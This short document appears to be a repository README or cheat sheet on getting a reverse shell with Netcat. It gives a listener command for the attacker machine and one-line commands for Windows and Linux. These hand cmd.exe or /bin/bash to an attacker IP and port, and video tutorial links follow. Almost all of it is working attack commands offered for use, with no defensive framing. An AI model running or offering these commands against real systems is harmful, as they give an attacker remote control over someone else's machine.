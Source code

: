## Setup a Netcat listener on the attacker machine

`nc -lvp port`

where `port` is any port number.

## To obtain a reverse shell for Windows

`nc.exe ip port –e cmd.exe`

## To obtain a reverse shell for Linux

`nc ip port –e /bin/bash`

where `ip` is the attacker machine IP and `port` is the chosen listening port.

## Video Tutorials

Win Reverse: https://goo.gl/bNxhbf <br>
Linux Reverse: https://goo.gl/pwkJXB
